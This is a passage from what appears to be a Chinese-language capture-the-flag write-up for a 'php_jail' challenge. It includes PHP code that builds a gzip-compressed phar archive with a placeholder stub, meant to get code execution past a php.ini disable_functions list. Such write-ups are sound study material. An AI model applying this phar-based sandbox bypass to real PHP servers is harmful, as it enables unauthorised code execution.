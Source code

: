 ![](images/php_jail-9.webp)

可确定这里需要利用 `phar` 档案包并压缩处理进行 ACE。

编写代码以便生成 `phar` 档案包:

```php
<?php
$p = new Phar("exp.phar");
$p->compressFiles(Phar::GZ);
$p->startBuffering();
$p['syaro.txt'] = 'suki!';
$p->setStub(
'// code here.
__HALT_COMPILER();'
);
$p->stopBuffering();

$fp = gzopen("exp.phar.gz", 'w9');
gzwrite($fp, file_get_contents("exp.phar"));
gzclose($fp);
```

看到 `php.ini` 定义的这个 ~~比我命还要长的~~ `disable_functions`，基本也能确定不能通过常规的 PHP 函数执行 RCE:

![](images/php_jail-10.webp)
